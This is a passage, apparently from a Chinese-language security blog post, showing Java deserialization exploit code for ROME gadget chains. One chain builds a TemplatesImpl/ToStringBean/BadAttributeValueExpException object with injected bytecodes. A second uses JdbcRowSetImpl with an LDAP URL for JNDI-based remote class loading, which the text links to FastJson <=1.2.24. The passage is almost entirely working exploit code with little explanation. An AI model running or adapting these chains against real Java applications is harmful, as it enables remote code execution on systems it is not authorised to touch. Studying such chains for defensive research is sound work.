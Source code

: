 ```plain
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(JdbcRowSetImpl):

JdbcRowSetImpl在FastJson中在<=1.2.24时使用的一个链子，这是针对后半段动态类加载不出网换成出网的操作：

```plain
package EXPROME;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class RomeJdbc {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:8085/zARQtFym";
        jdbcRowset.setDataSourceName(url);



        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        //再改回正常的参数
```